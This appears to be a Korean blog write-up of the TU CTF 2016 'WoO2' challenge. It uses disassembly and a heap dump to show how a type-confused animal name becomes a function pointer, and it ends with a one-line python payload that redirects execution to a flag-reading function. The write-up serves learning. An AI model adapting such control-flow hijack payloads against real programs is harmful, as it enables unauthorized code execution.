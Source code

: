 ```yaml
---
title: TU CTF 2016 - WoO2
date: 2016-05-17 21:16:00 +0900 KST
categories: [write-up]
---
```


TU CTF 2016에서 못푼 문제

```console
$ ./WoO2
Welcome! I don't think we're in Kansas anymore.
We're about to head off on an adventure!
Select some animals you want to bring along.

Menu Options:
1: Bring a lion
2: Bring a tiger
3: Bring a bear
4: Delete Animal
5: Exit

Enter your choice:
5
$
```

실행하면 이렇게 뜬다.

```text
Enter your choice:
1
Choose the type of lion you want:
1: Congo Lion
2: Barbary Lion
1
Enter name of lion:
AAA
```

동물을 고르면 종류를 고를 수 있고 이름도 지어줄 수 있다.

```c-objdump
$ readelf -s WoO2 | grep 'GLOBAL DEFAULT   13'
    45: 0000000000400fb0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
    48: 0000000000400a11   131 FUNC    GLOBAL DEFAULT   13 makeLion
    59: 0000000000400a94   155 FUNC    GLOBAL DEFAULT   13 pickTigerType
    65: 0000000000400989   136 FUNC    GLOBAL DEFAULT   13 pickLionType
    67: 0000000000400eaf    51 FUNC    GLOBAL DEFAULT   13 printWelcome
    69: 0000000000400c39   168 FUNC    GLOBAL DEFAULT   13 makeBear
    72: 0000000000400b2f   131 FUNC    GLOBAL DEFAULT   13 makeTiger
    73: 0000000000400f40   101 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    76: 0000000000400bb2   135 FUNC    GLOBAL DEFAULT   13 pickBearType
    78: 0000000000400820     0 FUNC    GLOBAL DEFAULT   13 _start
    79: 0000000000400e5e    81 FUNC    GLOBAL DEFAULT   13 printMenu
    81: 0000000000400ee2    93 FUNC    GLOBAL DEFAULT   13 main
    82: 0000000000400ce1    67 FUNC    GLOBAL DEFAULT   13 pwnMe
    85: 0000000000400d90   206 FUNC    GLOBAL DEFAULT   13 makeStuff
    86: 000000000040090d   124 FUNC    GLOBAL DEFAULT   13 l33tH4x0r
    92: 0000000000400d24   108 FUNC    GLOBAL DEFAULT   13 deleteAnimal
```

`l33tH4x0r` 함수를 보면

```c-objdump
Dump of assembler code for function l33tH4x0r:
   0x000000000040090d <+0>:     push   rbp
   0x000000000040090e <+1>:     mov    rbp,rsp
   0x0000000000400911 <+4>:     sub    rsp,0x50
   0x0000000000400915 <+8>:     mov    rax,QWOR PTR fs:0x28
   0x000000000040091e <+17>:    mov    QWORD PRT [rbp-0x8],rax
   0x0000000000400922 <+21>:    xor    eax,eax
   0x0000000000400924 <+23>:    mov    esi,0x400fc8
   0x0000000000400929 <+28>:    mov    edi,0x400fca
   0x000000000040092e <+33>:    call   cx4007f0 <fopen&plt>
```

`flag.txt`(0x400fca)를 여는 함수다.
그런데 이 함수를 호출하는 함수가 없다.

Enter your choice:에서 4919를 입력하면 pwnMe 함수가 실행되는데,
pwnMe 함수를 보면

```c-objdump
Dump of assembler code for function pwnMe:
   0x0000000000400ce1 <+0>:     push   rbp
   0x0000000000400ce2 <+1>:     mov    rbp,rsp
   0x0000000000400ce5 <+4>:     sub    rsp,0x10
   0x0000000000400ce9 <+8>:     mov    eax,DWORD PTR [rip+0x2013d1]     # 0x6020c0 <bearOffset>
   0x0000000000400cef <+14>:    cdqe
   0x0000000000400cf1 <+16>:    mov    rax,QWORD PTR [rax*8+0x6020e0]
   0x0000000000400cf9 <+24>:    mov    QWORD PTR [rbp-0x10],rax
   0x0000000000400cfd <+28>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d01 <+32>:    mov    eax,DWORD PTR [rax+0x14]
   0x0000000000400d04 <+35>:    cmp    eax,0x3
   0x0000000000400d07 <+38>:    jne    0x400d1a <pwnMe+57>
   0x0000000000400d09 <+40>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d0d <+44>:    mov    rax,QWORD PTR [rax]
   0x0000000000400d10 <+47>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400d14 <+51>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400d18 <+55>:    call   rax
   0x0000000000400d1a <+57>:    mov    edi,0x0
   0x0000000000400d1f <+62>:    call   0x400810 <exit@plt>
```

pwnMe+35에서 eax는 동물의 종류를 고를 때의 숫자,
pwnMe+55에서 rax는 동물의 이름의 헥사값을 가리킨다.

예를 들어 lion, tiger, bear순으로 각각 타입은 1, 2, 3,
이름은 AAA, BBB, CCC라고 이름을 지으면 메모리는 상황은 다음 스크린샷과 같다.

```c-objdump
(gdb) x/24x 0x603010
0x603010:       0x0a414141      0x00000000      0x00000000      0x00000000
0x603020:       0x00000000      0x00000001      0x00000021      0x00000000
0x603030:       0x0a424242      0x00000000      0x00000000      0x00000000
0x603040:       0x00000000      0x00000002      0x00000021      0x00000000
0x603050:       0xdeadbeef      0x00000000      0x0a434343      0x00000000
0x603060:       0x00000000      0x00000003      0x00020fa1      0x00000000
```

bear를 만드는 함수는 다른 동물을 만드는 함수와 달라서
이름이 들어갈 자리에 0xdeadbeef가 들어가니까 bear는 만들지 말고,
다른 동물을 만들어서 l33tH4x0r 함수 주소를 입력하면 실행시킬 수 있다.

그런데 난 주소가 64비트인 걸 생각 안하고
\x0d\x09\x40\x00만 죽어라 입력하다가 못풀었다.
컴퓨터는 개행문자까지 포함해서 0x0a0040090d를 호출하려고 시도했던 것ㅠㅠ

풀이

```sh
python -c "print '2\n3\n' + '\x0d\x09\x40\x00\x00\x00\x00\x00' + '\n4919\n'" | ./WoO2
```
